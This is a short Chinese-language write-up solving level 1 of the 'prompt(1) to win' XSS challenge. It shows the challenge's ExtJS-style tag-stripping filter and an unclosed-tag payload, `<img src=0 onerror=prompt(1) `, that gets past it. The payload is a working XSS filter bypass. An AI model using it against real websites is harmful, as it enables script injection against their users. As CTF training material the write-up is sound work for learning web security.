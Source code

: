 ## [[prompt(1) to win](http://prompt.ml)] [[Level 1 - tags stripping](http://prompt.ml/1)] [[解题报告](http://exp-blog.com/2019/03/18/pid-3623/)]

------

## 题目

```javascript
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}
```

------

## 解题报告

注意观察正则表达式，它会把所有匹配 `<tag>` 或 `</tag>` 的标签全部剥离。

那么不构造完整的 tag 、仅通过属性注入就可以绕过了，如这样的 payload ：

`<img src=0 onerror=prompt(1) ` （**注意末尾有一个空格**）

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2001%20-%20tags%20stripping/imgs/01.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
